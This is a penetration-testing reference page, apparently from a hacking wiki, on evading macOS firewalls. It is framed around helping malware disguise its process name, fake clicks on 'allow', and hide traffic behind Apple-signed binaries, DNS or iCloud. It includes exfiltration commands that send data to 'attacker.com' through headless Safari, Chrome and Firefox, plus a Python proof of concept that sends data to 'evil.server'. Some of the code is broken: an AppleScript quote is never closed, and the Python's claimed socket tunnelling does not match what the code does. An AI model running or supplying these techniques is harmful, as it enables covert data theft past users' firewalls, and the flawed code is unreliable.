 # macOS Bypassing Firewalls

## Found techniques

The following techniques were found working in some macOS firewall apps.

### Abusing whitelist names

- For example calling the malware with names of well known macOS processes like **`launchd`**

### Synthetic Click

- If the firewall ask for permission to the user make the malware **click on allow**

### **Use Apple signed binaries**

- Like **`curl`**, but also others like **`whois`**

### Well known apple domains

The firewall could be allowing connections to well known apple domains such as **`apple.com`** or **`icloud.com`**. And iCloud could be used as a C2.

### Generic Bypass

Some ideas to try to bypass firewalls

### Check allowed traffic

Knowing the allowed traffic will help you identify potentially whitelisted domains or which applications are allowed to access them

```bash
lsof -i TCP -sTCP:ESTABLISHED
```

### Abusing DNS

DNS resolutions are done via **`mdnsreponder`** signed application which will probably vi allowed to contact DNS servers.

![https://www.youtube.com/watch?v=UlT5KFTMn2k](../../images/image (468).png)

### Via Browser apps

- **oascript**

```applescript
tell application "Safari"
    run
    tell application "Finder" to set visible of process "Safari" to false
    make new document
    set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```

- Google Chrome

```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```

- Firefox

```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```

- Safari

```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```

### Via processes injections

If you can **inject code into a process** that is allowed to connect to any server you could bypass the firewall protections:

[[macos-proces-abuse/]]

---

## Recent macOS firewall bypass vulnerabilities (2023-2025)

### Web content filter (Screen Time) bypass – **CVE-2024-44206**
In July 2024 Apple patched a critical bug in Safari/WebKit that broke the system-wide “Web content filter” used by Screen Time parental controls.
A specially crafted URI (for example, with double URL-encoded “://”) is not recognised by the Screen Time ACL but is accepted by WebKit, so the request is sent out unfiltered. Any process that can open a URL (including sandboxed or unsigned code) can therefore reach domains that are explicitly blocked by the user or an MDM profile.

Practical test (un-patched system):

```bash
open "http://attacker%2Ecom%2F./"   # should be blocked by Screen Time
# if the patch is missing Safari will happily load the page
```

### Packet Filter (PF) rule-ordering bug in early macOS 14 “Sonoma”
During the macOS 14 beta cycle Apple introduced a regression in the userspace wrapper around **`pfctl`**.
Rules that were added with the `quick` keyword (used by many VPN kill-switches) were silently ignored, causing traffic leaks even when a VPN/firewall GUI reported *blocked*. The bug was confirmed by several VPN vendors and fixed in RC 2 (build 23A344).

Quick leak-check:

```bash
pfctl -sr | grep quick       # rules are present…
sudo tcpdump -n -i en0 not port 53   # …but packets still leave the interface
```

### Abusing Apple-signed helper services (legacy – pre-macOS 11.2)
Before macOS 11.2 the **`ContentFilterExclusionList`** allowed ~50 Apple binaries such as **`nsurlsessiond`** and the App Store to bypass all socket-filter firewalls implemented with the Network Extension framework (LuLu, Little Snitch, etc.).
Malware could simply spawn an excluded process—or inject code into it—and tunnel its own traffic over the already-allowed socket. Apple completely removed the exclusion list in macOS 11.2, but the technique is still relevant on systems that cannot be upgraded.

Example proof-of-concept (pre-11.2):

```python
import subprocess, socket
# Launch excluded App Store helper (path collapsed for clarity)
subprocess.Popen(['/System/Applications/App\\ Store.app/Contents/MacOS/App Store'])
# Connect through the inherited socket
s = socket.create_connection(("evil.server", 443))
s.send(b"exfil...")
```

---

## Tooling tips for modern macOS

1. Inspect current PF rules that GUI firewalls generate:
   ```bash
   sudo pfctl -a com.apple/250.ApplicationFirewall -sr
   ```
2. Enumerate binaries that already hold the *outgoing-network* entitlement (useful for piggy-backing):
   ```bash
   codesign -d --entitlements :- /path/to/bin 2>/dev/null \
       | plutil -extract com.apple.security.network.client xml1 -o - -
   ```
3. Programmatically register your own Network Extension content filter in Objective-C/Swift.  
   A minimal rootless PoC that forwards packets to a local socket is available in Patrick Wardle’s **LuLu** source code.

## References

- [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)
- <https://nosebeard.co/advisories/nbl-001.html>
- <https://thehackernews.com/2021/01/apple-removes-macos-feature-that.html>

